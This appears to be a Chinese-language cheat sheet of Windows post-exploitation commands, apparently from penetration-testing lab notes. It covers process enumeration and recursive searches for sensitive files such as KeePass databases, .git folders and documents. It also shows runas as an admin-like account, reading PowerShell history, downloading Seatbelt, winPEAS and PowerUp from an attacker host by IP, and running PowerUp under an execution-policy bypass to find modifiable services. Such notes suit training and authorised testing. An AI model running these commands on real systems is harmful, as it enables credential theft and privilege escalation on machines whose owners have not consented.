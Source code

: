 

## 正在运行程序

```
Get-Process
Get-Process -Name 进程名 | Select Path
Get-Process | Select ProcessName, Path
```

## 文件搜索
```
Get-ChildItem -Path C:\ -Include 文件名(可用通配符) -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini,*.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *.pdf,*.xls,*.xlsx,*.doc,*.docx,*.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include lab.ps1 -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users -Include *.txt -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include .git -File -Recurse -ErrorAction SilentlyContinue
dir C:\.git -Recurse -ErrorAction SilentlyContinue
dir /s /b /ah C:\.git
```

## 不同用户身份运行程序
```
runas /user:backupadministrator cmd
```

## ps历史记录
```
Get-History
(Get-PSReadlineOption).HistorySavePath
```

## 下载文件
```
iwr -Uri http://192.168.45.161/Seatbelt.exe -Outfile Seatbelt.exe
iwr -Uri http://192.168.45.161
/winPEASany.exe -Outfile winPEASany.exe
```

## 重启
```
shutdown /r /t 0
```

## 使用 Get-ModifiableServiceFile显示当前用户可以修改的服务，例如服务二进制文件或配置文件
```
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
iwr -uri http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile
```

